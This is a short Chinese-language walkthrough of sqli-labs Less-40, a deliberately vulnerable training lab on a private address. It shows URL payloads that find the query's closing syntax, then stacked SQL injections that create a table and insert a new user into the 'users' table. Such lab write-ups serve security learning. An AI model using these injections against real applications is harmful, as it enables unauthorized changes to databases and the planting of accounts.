 ```yaml
---
title: Less - 40
date: 2023-03-20T19:05:23Z
lastmod: 2023-03-20T19:14:02Z
---
```


# Less - 40

---

# 通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-40/?id=1'
```

​![image](assets/image-20230320191012-jgvau3s.png)​

```http
http://192.168.23.128/sqli-labs/Less-40/?id=1'--+ 
```

​![image](assets/image-20230320191042-nosvufh.png)​

```http
http://192.168.23.128/sqli-labs/Less-40/?id=1')--+
```

​![image](assets/image-20230320191123-bb7bol7.png)​

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-40/?id=1');create table test like users;--+
```

​![image](assets/image-20230320191209-0zdqpg4.png)​

​![image](assets/image-20230320191234-kfa3ugq.png)​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-40/?id=1');insert into users values(18,'cmx','cmx');--+
```

​![image](assets/image-20230320191334-nrnwac1.png)​

​![image](assets/image-20230320191350-m7j9nv7.png)​
